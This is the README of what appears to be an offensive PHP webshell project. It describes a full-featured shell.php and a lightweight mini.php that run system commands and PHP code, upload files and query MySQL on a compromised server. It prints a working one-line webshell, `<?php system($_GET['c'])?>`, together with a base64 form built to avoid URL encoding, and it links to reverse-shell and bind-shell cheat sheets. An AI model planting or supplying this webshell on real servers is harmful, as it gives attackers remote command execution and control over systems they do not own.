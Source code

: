 ## PHP Webshell

This is a simple yet useful PHP webshell.
It is compatible with PHP > 5.2

This webshell comes in two flavours :
- shell.php : fully featured webshell to exploit
- mini.php : lightweight, only essential features

### Features

shell.php
- browse server's directory tree
- read, edit, delete, upload and download file
- Execute system commands
- Execute PHP code
- Execute MySql queries

mini.php
- Execute system commands
- Execute PHP code
- Upload file

### More content

Another file is available : `mini-b64.txt`

This is the base64 version of mini.php. It does not contain '+' and '/' chars to avoid URL encoding and other possible issues.

### Even more tricks

##### Tiniest PHP shell

`<?php system($_GET['c'])?>`

`PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pPz4=`

#### Upgrade to a more interactive shell

PHP reverse shell : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

PHP bind shell : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

###### Good resources about shells
https://www.revshells.com/

https://yolospacehacker.com/hackersguide/en/?cat=Webshell

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md